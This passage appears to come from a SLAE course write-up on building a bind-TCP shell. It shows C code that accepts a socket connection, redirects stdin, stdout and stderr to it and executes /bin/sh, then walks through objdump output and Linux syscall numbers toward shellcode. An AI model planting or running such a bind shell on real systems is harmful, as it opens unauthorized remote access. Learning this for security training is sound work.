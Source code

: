 ```c
        listen(sockfd, 0);
 
        clientfd = accept(sockfd, NULL, NULL);
 
        dup2(clientfd, 0);
        dup2(clientfd, 1);
        dup2(clientfd, 2);
 
        execve("/bin/sh", NULL, NULL);
        return 0;
}
```  
  
Let's test it:  
```bash
gcc -ggdb -o shell-bind-tcp shell-bind-tcp.c
./shell-bind-tcp


```  
  
From another shell:  
![image1]({{ site.url }}/public/images/slae/assignment1/image1.png)  

The ```objdump -d ./shell-bind-tcp -M intel``` produces a huge amount of assembly code.  
Something good to notice is that our ELF has been dynamically linked:  
![image3]({{ site.url }}/public/images/slae/assignment1/image3.png)  
  
The ELF is using the .plt and .got sections in order to dynamically address the interesting functions.  
These functions are LIBC functions:  
![image2]({{ site.url }}/public/images/slae/assignment1/image2.png)  
  
We will need to translate these function calls into system calls. Let's focus on the following functions:   
``` 
socket
bind
listen
accept
dup2
execve
```
  
Let's have a look in **/usr/include/i386-linux-gnu/asm/unistd_32.h**:  
```
#define __NR_execve 11
#define __NR_dup2 63
#define __NR_socketcall 102
```

What is the syscall socketcall?  
```bash
man 2 socketcall

SOCKETCALL(2)                                             Linux Programmer's Manual                                            SOCKETCALL(2)

NAME
       socketcall - socket system calls

SYNOPSIS
       int socketcall(int call, unsigned long *args);

DESCRIPTION
```